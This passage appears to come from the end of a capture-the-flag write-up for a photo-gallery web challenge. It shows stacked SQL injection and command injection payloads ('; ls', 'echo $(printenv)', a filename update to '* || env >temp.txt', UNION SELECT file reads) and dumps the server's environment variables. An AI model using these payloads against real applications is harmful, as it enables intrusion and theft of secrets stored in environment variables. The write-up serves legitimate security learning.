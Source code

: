 After some research I found out that MySQL does not easily escape the `&`. So I can't silence the errors that get raised by this or any other command.

Anyway... I sometimes overcomplicate the solution. Let's just put `; ls -a` as the command and check the main page.

`Space used: uwsgi.ini`

Ok! Great! Let's see it using `UNION`: `/fetch?id=-1 UNION SELECT 'uwsgi.ini'`. Ok, it doesn't contain much...

Let's focus on the `/files` folder and output the results of the `ls -a` into a file with `; ls ./files >temp.txt`. We only see the two pictures...

Ok, let's just check the environment variables with the command `;echo $(printenv)` like *pirateducky* did. Sure enough on the main page we see:


```
Space used: PYTHONIOENCODING=UTF-8 UWSGI_ORIGINAL_PROC_NAME=/usr/local/bin/uwsgi SUPERVISOR_GROUP_NAME=uwsgi FLAGS=["^FLAG^****************************************************************$FLAG$","^FLAG^****************************************************************$FLAG$","^FLAG^****************************************************************$FLAG$"] HOSTNAME=ip-10-15-43-229.us-west-2.compute.internal SHLVL=0 PYTHON_PIP_VERSION=18.0 HOME=/root GPG_KEY=C01E1CAD5EA2C4F0B8E3571504C367C218ADD4FF UWSGI_INI=/app/uwsgi.ini AWS_EXECUTION_ENV=AWS_ECS_FARGATE NGINX_MAX_UPLOAD=0 UWSGI_PROCESSES=16 STATIC_URL=/static AWS_DEFAULT_REGION=us-west-2 ECS_CONTAINER_METADATA_URI_V4=http://169.254.170.2/v4/2ec7247606784d52a3904f2800dcd5e2-2858145981 UWSGI_CHEAPER=2 ECS_CONTAINER_METADATA_URI=http://169.254.170.2/v3/2ec7247606784d52a3904f2800dcd5e2-2858145981 NGINX_VERSION=1.13.12-1~stretch PATH=/usr/local/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin NJS_VERSION=1.13.12.0.2.0-1~stretch LANG=C.UTF-8 SUPERVISOR_ENABLED=1 PYTHON_VERSION=2.7.15 AWS_REGION=us-west-2 NGINX_WORKER_PROCESSES=1 SUPERVISOR_SERVER_URL=unix:///var/run/supervisor.sock SUPERVISOR_PROCESS_NAME=uwsgi LISTEN_PORT=80 STATIC_INDEX=0 PWD=/app STATIC_PATH=/app/static PYTHONPATH=/app UWSGI_RELOADS=0
```
Which is something we should have done from the beginning it seams... No matter. This challenge is finished and we also learned that the flags are environment variables in these challenges.


### Notes:
* The writeup by *DaNeil C* is strange... Especially this part:
```markdown
1. I did try to use the previous UNION statement to view the tmp file but nothing shows up yet. Time to Google again. This I also something that I needed help with. I found the following set of code to be useful...
2. use http://(domain)/(yourID)/fetch?id=1; update photos set filename='* || ls ./files >temp.txt ' where id=3; commit; --
refresh the home page
3. now use http://(domain)/(yourID)/fetch?id=1; update photos set filename='* || env >temp.txt' where id=3; commit; --
4. refresh home
5. use the UNION statement with 'temp.txt` and poof. allllll the flags are found. 
```

## Final thoughts:

It is fun to read through the write up for the previous flags now that we know how the challenge works! Oh, I was so naive a few lines back! Some highlights:
* I tried to stack SQL commands really [early on](###-Accessing-the-situation---part-3:)! It might have created the files, but maybe not...
* I am wrong here: `If the query affects no rows then it uses the result of the first line to read a file and render its contents. Otherwise it 404s.`. The query gets executed anyway unless it encounters an error.
* `I will use a readily available tool for this challenge` Thank god I didn't write my own tool from scratch! Sqlmap does a better job and it turned out to be OP for this challenge anyway, as the server's `404` or `500` responses make no difference to the query's execution. Or I might be wrong here too and I look like an idiot now!